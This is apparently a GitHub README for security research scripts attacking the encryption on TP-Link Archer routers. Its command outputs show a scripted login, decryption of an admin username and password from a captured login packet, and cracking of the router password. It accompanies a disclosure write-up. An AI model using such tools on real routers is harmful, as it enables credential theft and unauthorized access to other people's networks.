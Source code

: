 # TP-Link GDPR

Scripts that break TP-Link's attempt at GDPR compliance. To learn more, visit the full write-up [here](https://hex.fish/2021/05/10/tp-link-gdpr/).

## Authenticate

```text
python3 authenticate.py 192.168.0.1 password123
[*] Connecting to router at 192.168.0.1
[+] Found supported device: Archer C20 AC750 Wireless Dual Band Router
[+] RSA n: E70029629FA45445EC5D1048E287E98839A2B481E8E83940BB8C339515C57B197D8F593F4806E51829C69116A41002125EFEF7D0DB73DA8CC98A931903ED4D35
[+] RSA e: 010001
[+] Sequence: 488263223
[*] Setting AES key to AAAAAAAAAAAAAAAA
[*] Setting AES IV to BBBBBBBBBBBBBBBB
[+] JSESSIONID: 69edac0c5021e874e4b436fdded7f4
[+] Successfully authenticated with the router
```

## Decrypt Credentials

```text
python3 decrypt_creds.py ./bin/login.pcapng
[+] Found a login packet
[*] Login request packet captured at Unix epoch time 1618851624.846030723
[+] AES Key: 1618851624837207
[+] AES IV: 1618851624837491
8
[/cgi/login#0,0,0,0,0,0#0,0,0,0,0,0]0,2
username=admin
password=password123
```

## Password Crack

```text
python3 password_crack.py
Cracked the password after 3 attempts. The password is "password123", enjoy!
```

